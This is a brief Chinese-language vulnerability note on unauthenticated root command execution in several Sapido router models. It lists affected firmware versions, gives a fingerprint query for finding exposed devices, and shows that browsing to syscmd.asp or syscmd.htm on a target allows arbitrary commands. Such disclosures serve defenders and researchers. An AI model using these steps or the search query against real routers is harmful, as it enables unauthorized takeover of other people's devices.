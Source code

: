 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

<a-checkbox checked>BR270n-v2.1.03</a-checkbox></br>

<a-checkbox checked>BRC76n-v2.1.03</a-checkbox></br>

<a-checkbox checked>GR297-v2.1.3</a-checkbox></br>

<a-checkbox checked>RB1732-v2.0.43</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sapido-路由器"</a-checkbox></br>

## 漏洞复现

固件中存在一个asp文件为 `syscmd.asp` 存在命令执行



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/sa-1.png)



访问目标:



```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/sa-2.png)



直接输入就可以命令执行了